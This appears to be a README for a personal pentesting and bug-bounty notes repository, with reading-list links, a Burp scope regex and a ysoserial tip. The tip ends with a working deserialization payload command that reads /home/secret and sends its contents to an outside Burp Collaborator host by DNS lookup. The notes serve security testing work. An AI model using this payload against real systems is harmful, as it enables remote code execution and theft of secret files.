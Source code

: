# EasyG

EasyG started out as a script that I use to automate some information gathering tasks for PenTesting and Bug Hunting. Now it is more than that.

Here I gather all the resources about PenTesting and Bug Bounty Hunting that I find interesting, notes, payloads that I found useful and many links to blogs and articles that I want to read (because having a lot of bookmarks bothered me).

**To Read list**
- https://github.com/dolevf/Damn-Vulnerable-GraphQL-Application
- https://blog.yeswehack.com/yeswerhackers/abusing-s3-bucket-permissions/
- https://portswigger.net/web-security/ssrf
- https://portswigger.net/web-security/jwt
- https://github.com/nahamsec/Resources-for-Beginner-Bug-Bounty-Hunters/blob/master/assets/blogposts.md
- https://github.com/nahamsec/Resources-for-Beginner-Bug-Bounty-Hunters/blob/master/assets/media.md
- https://github.com/nahamsec/Resources-for-Beginner-Bug-Bounty-Hunters/blob/master/assets/mobile.md
- https://www.bugcrowd.com/hackers/bugcrowd-university/
- https://www.microsoft.com/en-us/msrc/bounty-example-report-submission?rtc=1

**Blog / Writeups / News**
- https://pentester.land/list-of-bug-bounty-writeups.html
- https://hackerone.com/hacktivity
- https://portswigger.net/research
- https://www.skeletonscribe.net
- https://cvetrends.com/

**Burp suite**

- To add a domain + subdomains in advanced scopes: `.*\.test\.com$`

**Ysoserial**

Because of `Runtime.exec()`, ysoserial doesn't work well with multiple commands. After some research, I found a way to run multiple sys commands anyway, by using `sh -c $@|sh . echo ` before the multiple commands that we need to run. Here's an example:

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections7 'sh -c $@|sh . echo host $(cat /home/secret).dctoqqar8fjkhoahnzjvxw9980ev2k.burpcollaborator.net' | gzip | base64
```
